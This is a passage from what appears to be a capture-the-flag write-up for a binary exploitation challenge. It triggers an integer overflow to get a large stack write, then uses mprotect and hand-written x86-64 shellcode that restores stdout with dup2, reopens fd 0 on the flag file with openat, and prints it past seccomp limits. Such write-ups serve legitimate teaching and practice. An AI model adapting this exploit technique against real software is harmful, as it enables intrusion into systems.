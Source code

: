 The first thing that comes to mind is , call mprotect on the region we have overflow , and then shellcode.
Well , thats it.

Let's script it till there.

```python
    move_on()
    gdb.attach(io)
    sla("service?(y/n)\n",'y')
    #Trigger integer overflow with type confusion bug to get large write on stack
    sla("feedback: ",'-1')

```

But as you would have noticed , a weird function `supress_stdout` is being called which redirects stdout to `/dev/null`. So how do we get around it? Simple , you just have to mimic it.

Now all we have to do is , write a simple shellcode. 

Wait , one more thing , what about those seccomp constraints which let you read only from fd `0` and write only to fd `1`.

1. To open flag at fd `0` , just close fd 0 and open flag , it will open at fd **0** itself.
2. Now you can read the flag at fd **0** and write it to stdout.


Here's the remaining script.


```python
    #The shellcode first reopens stdout by mimicing the mechanism of supress_stdout function
    #It does so by calling dup2 , changing file descriptor of stdout back to 1
    #Then we close stdin so that flag gets opened at fd 0.
    #After that , we call openat syscall to open flag at fd 0, as open is not allowed
    #Finally we read flag in memory and write it out
    shellcode = asm('''
            xor rdi,rdi
            mov edi,DWORD PTR [rbp-0x88]
            mov rsi,1
            mov rax,33
            syscall
            mov rax,3
            syscall
            mov rax,3
            mov rdi,0
            xor rsi,rsi
            xor rdx,rdx
            syscall
            mov rax,257
            mov rdi,0xffffff9c
            mov r9,0x67616c66
            push r9
            push rsp
            pop rsi
            mov rdx,0
            mov r10,0644
            syscall
            mov rax,0
            mov rdi,0
            lea rsi,[rsp-0x200]
            mov rdx,0x50
            syscall
            mov rax,1
            mov rdi,1
            syscall
            ''')
    #Gadgets
    mprotect = libc_base + LIBC.symbols['mprotect']
```